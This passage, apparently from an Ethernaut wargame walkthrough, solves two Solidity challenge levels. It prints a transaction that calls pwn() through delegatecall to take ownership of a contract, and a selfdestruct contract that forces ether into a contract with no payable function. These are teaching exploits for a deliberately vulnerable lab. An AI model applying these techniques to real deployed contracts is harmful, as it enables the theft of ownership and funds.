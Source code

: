 Delegatecall is used here, meaning the given function is executed in the context of the calling site. 

In this case, if we pass in the function signature of pwn() in the message data, the pwn() function will execute, but as we are executing it in the context of the Delegation contract, we will be msg.sender, making us the new owner.

    await sendTransaction({to:instance, data:web3.sha3("pwn()")})

=========================

###Message on completion

Usage of delegatecall is particularly risky and has been used as an attack vector on multiple historic hacks. With it, you contract is practically saying "here, -other contract- or -other library-, do whatever you want with my state". Delegates have complete access to your contract's state. The delegatecall function is a powerful feature, but a dangerous one, and must be used with extreme care.
Please refer to the The Parity Wallet Hack Explained article for an accurate explanation of how this idea was used to steal 30M USD.

=========================

7. Force

=========================

    pragma solidity ^0.4.18;

    contract Force {/*

                       MEOW ?
             /\_/\   /
        ____/ o o \
      /~____  =ø= /
     (______)__m_m)

    */}

=========================

###Goal
* Make the balance of the contract greater than zero.

=========================

### Solution

We need a way to send ether to this contract, but there is no payable function.

Not to worry, selfdestruct is at hand. The selfdestruct method allows a contract to delete itself, and send any funds it may have before doing so.
    
    pragma solidity ^0.4.18;

    contract Thing {
        function sendToForce(address force) public payable {
            selfdestruct(force);
        }
    }

